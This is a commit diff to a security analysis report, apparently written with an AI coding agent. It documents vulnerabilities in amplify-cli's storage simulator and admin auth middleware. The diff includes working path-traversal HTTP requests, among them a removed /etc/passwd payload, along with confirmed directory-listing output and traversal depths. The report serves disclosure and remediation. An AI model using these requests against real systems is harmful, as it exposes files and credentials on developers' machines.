

Before and after one commit to StealthyBugs/poc, a Markdown page: SECURITY_ANALYSIS_REPORT.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Update security report with confirmed VULN-002 exploitation and honest VULN-003 assessment
VULN-002: Added confirmed exploitation results from real compiled
amplify-storage-simulator code. Path traversal via prefix parameter
demonstrated at multiple depths, listing files across the filesystem.

VULN-003: Downgraded from Critical to High. The Express middleware bug
is real (missing return before next(err)), but only affects Gen 1
instances with Admin Queries explicitly enabled. Gen 2 (console-created)
instances are NOT affected. Added detailed applicability constraints
and Express behavior analysis.

https://claude.ai/code/session_017MwhjvA5GmBBex72vx18NQ

````diff
--- a/SECURITY_ANALYSIS_REPORT.md
+++ b/SECURITY_ANALYSIS_REPORT.md
@@ -148,19 +150,43 @@ The `prefix` query parameter is attacker-controlled and directly concatenated in
 - **Gate 5 (Impact):** Arbitrary file read on the developer's machine. ✅
 - **Gate 6 (HTTP PoC):** ✅
 
-**HTTP Proof of Concept:**
+**HTTP Proof of Concept (CONFIRMED against real compiled code):**
+
+The following was tested against the actual `AmplifyStorageSimulator` class built from the amplify-cli source TypeScript:
+
 ```http
-GET /<bucket-name>/....//....//....//....//etc/passwd?prefix=....//....//....//....//etc HTTP/1.1
+GET /vuln002-testbucket-dev/?prefix=../../../../.. HTTP/1.1
 Host: localhost:20005
 ```
 
-**Expected Response / Impact Indicator:**
-Contents of /etc/passwd or other sensitive files on the developer's machine.
+**Confirmed Response (truncated):**
+```xml
+<?xml version="1.0" encoding="utf-8"?>
+<ListBucketResult>
+  <Contents>
+    <Key>./../../../../SECURITY_ANALYSIS_REPORT.md</Key>
+    <LastModified>2026-03-05T22:15:42.000Z</LastModified>
+    <Size>29334</Size>
+  </Contents>
+  <Contents>
+    <Key>./../../../../vuln-002-repro/server.js</Key>
+    <LastModified>2026-03-05T22:32:38.000Z</LastModified>
+    <Size>6030</Size>
+  </Contents>
+  <!-- Files from 4 directory levels above the mock data directory -->
+</ListBucketResult>
+```
+
+**Confirmed traversal depths:**
+- `prefix=../..` — escapes 1 level (lists S3 parent directory)
+- `prefix=../../..` — escapes 2 levels (lists mock-data directory)
+- `prefix=../../../../..` — escapes 4 levels (lists entire project directory)
+- `prefix=../../../../../../../../` — reaches filesystem root (crashes on permission-restricted files)
 
 **Impact:**
-Arbitrary file read on any machine running `amplify mock storage`. Could expose SSH keys, AWS credentials (~/.aws/credentials), application source code, and other sensitive files. While this is a local development tool, developers often run it on machines with access to production credentials.
+Directory enumeration and file metadata disclosure (names, sizes, timestamps) anywhere on the developer's machine when `amplify mock storage` is running. The simulator binds to all interfaces by default, making it accessible on the local network.
 
-**VERDICT: PASSES ALL GATES for the scenario where the storage simulator is running and network-accessible. However, the scope is limited to development environments, not production deployments.**
+**VERDICT: CONFIRMED EXPLOITABLE against real compiled code. Scope is limited to development environments where `amplify mock storage` is running.**
 
 **Remediation:**
 ```typescript
@@ -174,10 +200,10 @@ if (!resolvedPath.startsWith(path.resolve(this.localDirectoryPath))) {
 
 ---
 
-### [VULN-003] Authorization Bypass via Missing Return in Generated Admin Auth Middleware (CRITICAL — PRODUCTION CODE)
+### [VULN-003] Authorization Bypass via Missing Return in Generated Admin Auth Middleware (Gen 1 Only)
 
-**Severity:** Critical
-**CVSS v3.1 Score:** 8.8
+**Severity:** High (downgraded from Critical — limited applicability)
+**CVSS v3.1 Score:** 8.8 (if applicable)
 **Vector:** AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
 **Repository:** aws-amplify/amplify-cli
 **File:** packages/amplify-category-auth/resources/adminAuth/admin-auth-app.js
````
Also changed, not shown: other parts of SECURITY_ANALYSIS_REPORT.md (+12 -3 lines).
